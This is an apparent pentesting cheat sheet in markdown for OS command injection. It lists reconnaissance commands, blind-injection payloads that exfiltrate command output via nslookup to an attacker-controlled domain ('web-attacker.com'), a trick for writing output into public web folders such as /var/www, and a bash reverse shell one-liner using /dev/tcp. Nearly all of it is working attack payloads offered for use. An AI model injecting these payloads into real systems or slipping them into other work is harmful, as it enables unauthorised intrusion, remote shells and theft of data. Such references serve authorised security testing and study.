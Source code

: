 # Command Injection
## OS
Bash - `uname -a`
Cmd - `ver`

## User
Bash - `whoami`

## Blind Command Injection
### DNS Data Exfiltration
**ping / nslookup - Nicer to use nslookup**
Bash  - ``& nslookup `<COMMAND>`.<DOMAIN> &``
`& nslookup $(<COMMAND>).kgji2ohoyw.web-attacker.com &`

Window (2 commands) - `set BLAH=<COMMAND> -> %BLAH%`
### Redirect to Public Folder
** Enumerate a public subdirectory first. Useful to see where images/favicons are served from **
Bash - `<COMMAND> > <WEB FOLDER>/<PUBLIC FOLDER>/out.txt`
#### Common Web Folders
Apache - `/var/www`
IIS - `C:\inetpub\wwwroot`

#### Common Sub Folders
`images`
`config`
`public`
`static`

## Reverse Shell
Bash - `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`
